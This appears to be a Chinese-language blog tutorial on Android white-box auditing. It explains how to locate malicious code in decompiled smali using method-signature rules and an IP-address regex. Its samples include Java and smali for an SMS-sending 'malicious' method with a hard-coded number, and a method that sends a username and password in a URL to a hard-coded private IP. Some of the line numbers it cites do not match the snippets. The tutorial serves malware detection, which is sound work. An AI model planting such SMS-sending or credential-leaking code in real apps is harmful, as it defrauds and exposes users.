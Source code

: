 ﻿---
title: Android白盒审计之代码定位
---
标签（空格分隔）： AndroidSec

---

## 0x01 漏洞/恶意代码 规则提取
通常 **安全测试人员/反病毒工程师** 拿到的是**apk包而非Java代码**，这个时候就需要经过**反编译dex拿到smali代码**进行定位，为了定位，这个时候我们就需要用**规则**。
### 1. smali代码规则
```
类似发送短信的恶意代码如下：
public void sendSMS(String phoneNumber,String message){
        //获取短信管理器
        android.telephony.SmsManager smsManager = android.telephony.SmsManager.getDefault();
        smsManager.sendTextMessage("18935353211", null, "i am hacker", null, null);

}
```
最终发送短信的代码为**smsManager.sendTextMessage("18935353211", null, text, null, null)**，因为我们拿到的是apk，最终拿到的是smali代码，那么我们需要提取smali规则，这个时候我们就需要用到一款**Java2smali的AndroidStudio插件**，直接将**Java代码转化为smali代码**，类似上段恶意代码的smali代码如下：
```
.method public sendSMS(Ljava/lang/String;Ljava/lang/String;)V
    .registers 9
    .param p1, "phoneNumber"    # Ljava/lang/String;
    .param p2, "message"    # Ljava/lang/String;

    .prologue
    const/4 v2, 0x0

    .line 30
    invoke-static {}, Landroid/telephony/SmsManager;->getDefault()Landroid/telephony/SmsManager;

    move-result-object v0

    .line 31
    .local v0, "smsManager":Landroid/telephony/SmsManager;
    const-string v1, "18935353211"

    const-string v3, "i am hacker"

    move-object v4, v2

    move-object v5, v2

    invoke-virtual/range {v0 .. v5}, Landroid/telephony/SmsManager;->sendTextMessage(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Landroid/app/PendingIntent;Landroid/app/PendingIntent;)V

    .line 33
    return-void
.end method

```
这个时候可以轻而易举的提取到发送短信的规则

```
**Landroid/telephony/SmsManager;->sendTextMessage(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Landroid/app/PendingIntent;Landroid/app/PendingIntent;)V**
```
然后根据这个规则就能定位到这行恶意代码为24行，同时根据47行的恶意代码就能拿到存放手机号和恶意短信的**寄存器**，类似这个存放手机号和短信的寄存器分别是**v1和v3**，然后利用寄存器构建后置规则，**const-string v1** 和 **const-string v3**,然后用后置规则向上回溯，精确定位到18(**const-string v1, "18935353211"**)和16行(**const-string v3, "i am hacker"**),这个时候就可以拿到恶意短信信息和手机号，然后可以通过这个smali文件定位到类名，最后拿到恶意代码类、恶意代码行和恶意代码，同理，可以根据这个扫描漏洞（只需替换为漏洞规则,并设置权重，最后计算权重），这对甲方进行安全风险评估很重要。

>详细情况如图：

![代码定位](https://i.screenshot.net/q5dqwad)
### 2. 正则规则
```
类似我们要定位出恶意的URL("http://172.16.168.111:1010/login.php")，如下代码：
public static String loginByGet(String username,String password){
        //get的方式提交就是url拼接的方式
        String path = "http://172.16.168.111:1010/login.php?username="+username+"&password="+password;
        try {
            URL url = new URL(path);
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();
            connection.setConnectTimeout(5000);
            connection.setRequestMethod("GET");
            //获得结果码
            int responseCode = connection.getResponseCode();
            if(responseCode ==200){
                //请求成功 获得返回的流
                InputStream is = connection.getInputStream();
                return null;
            }else {
                //请求失败
                return null;
            }
        } catch (MalformedURLException e) {
            e.printStackTrace();
        } catch (ProtocolException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
}
```

```
上面代码的smali代码如下：
.method public static loginByGet(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;
    .registers 11
    .param p0, "username"    # Ljava/lang/String;
    .param p1, "password"    # Ljava/lang/String;

    .prologue
    const/4 v8, 0x0

    .line 54
    new-instance v6, Ljava/lang/StringBuilder;

    invoke-direct {v6}, Ljava/lang/StringBuilder;-><init>()V

    const-string v7, "http://172.16.168.111:1010/login.php?username="

    invoke-virtual {v6, v7}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    move-result-object v6

    invoke-virtual {v6, p0}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    move-result-object v6

    const-string v7, "&password="

    invoke-virtual {v6, v7}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    move-result-object v6

    invoke-virtual {v6, p1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    move-result-object v6

    invoke-virtual {v6}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;

    move-result-object v3

    .line 56
    .local v3, "path":Ljava/lang/String;
    :try_start_1e
    new-instance v5, Ljava/net/URL;

    invoke-direct {v5, v3}, Ljava/net/URL;-><init>(Ljava/lang/String;)V

    .line 57
    .local v5, "url":Ljava/net/URL;
    invoke-virtual {v5}, Ljava/net/URL;->openConnection()Ljava/net/URLConnection;

   =============================省略无用的=====================================
.end method
```

打开url的代码是: **URL url = new URL(path)**,即最终的smali规则会是**Ljava/net/URL;-><init>(Ljava/lang/String;)V**，这个时候你可以拿到存放url的寄存器为**v3**，代码行数是**40**行，但是因为url是经过拼接的，这个时候寄存器定位会出现问题，so，我们需要**正则表达式**定位，我们的目标是**http://172.16.168.111:1010/login.php**，那么写出这个正则表达式如下，定位出**172.16.168.111**这个ip，然后就跟可以定位出恶意url，这是另外一种定位方式，在Android自动化审计中，常常用到。
```
(25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])
```
逻辑图：
![此处输入图片的描述](https://i.screenshot.net/59x3ghm)
### 0x02 怎么提高审计效率
```
多线程技术，将dex反编译后添加到扫描线程池
```
逻辑图：
![提高审计效率](https://i.screenshot.net/8zj98ap)

### 0x03 规则提取时需要注意扫描后的误报率，即规则优化，后续

### 0x04 设置规则权重，进行安全评估，后续

